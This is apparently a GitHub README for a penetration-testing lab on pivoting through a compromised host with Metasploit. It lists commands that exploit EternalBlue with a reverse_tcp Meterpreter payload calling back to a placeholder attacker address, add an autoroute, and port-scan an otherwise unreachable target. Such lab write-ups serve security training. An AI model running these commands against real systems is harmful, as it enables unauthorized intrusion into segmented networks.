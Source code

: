 # Pivoting Using Metasploit and Meterpreter

 ### [YouTube Demonstration](https://youtu.be/CeRYDpKfscg)

## Background

Some networks are architected to isolate business-critical machines from the Internet and machines located on the corporate network that are considered more likely to be compromised. This isolation strategy is implemented using Virtual LANs (VLANs) or physical segmentation.

In many cases, network engineers and system administrators will still need a way to access those restricted networks to manage them (i.e., troubleshoot bugs, patch applications, reboot machines, etc.).

As a penetration tester or red teamer, you will need to identify users who have a legitimate business requirement for accessing restricted networks. Then, you will need to identify the machines they use to manage those networks and compromise them.

Once a machine that has access to restricted networks has been compromised, you will need to forward your network traffic through that machine to access the machines in the restricted network. This technique is often referred to as 'pivoting' because you are using one machine to pivot into an otherwise inaccessible network environment.

## Project Overview

In this project, I configured Metasploit to tunnel network traffic to Target 2 via Target 1, using the Meterpreter implant as the tunnel. This exercise taught me the pivoting technique needed to obtain unauthorized access to restricted networks segmented from the Internet and the corporate network.

## Lab Setup

For this exercise, the following lab setup was used:
- **Kali Machine (Attacker)**
- **Target Machine with a Meterpreter implant (Target 1)**
- **Target Machine that the Kali machine cannot directly reach, with an open port running a service (Target 2)**

## Steps Taken

1. **Obtain a Meterpreter Session on Target 1**:
   - Launched Metasploit and used an appropriate exploit to gain a Meterpreter session on Target 1.

    ```plaintext
    msfconsole
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOST <target1_ip>
    set payload windows/meterpreter/reverse_tcp
    set LHOST <your_ip>
    set LPORT <your_port>
    exploit
    ```

2. **Add a Route to Target 2**:
   - Within the Meterpreter session on Target 1, added a route to Target 2.

    ```plaintext
    run autoroute -s <target2_ip_subnet>
    ```

3. **Perform a Port Scan Against Target 2**:
   - Used Metasploit's auxiliary modules to perform a port scan against Target 2.

    ```plaintext
    use auxiliary/scanner/portscan/tcp
    set RHOSTS <target2_ip>
    run
    ```

## Validation

- Validated that the Attack box could communicate with Target 1 but could not reach Target 2 directly.
- Verified that the Attack box could not see the open port and service running on Target 2.
- Demonstrated that the open port and service running on Target 2 could be identified via the Meterpreter session running on Target 1.

## Learning Objectives Achieved

- **Pivoting Technique**: Learned how to use Metasploit to pivot through a compromised machine to access an otherwise inaccessible network environment.
- **Post-Exploitation**: Understood the importance of identifying and compromising machines with legitimate access to restricted networks.


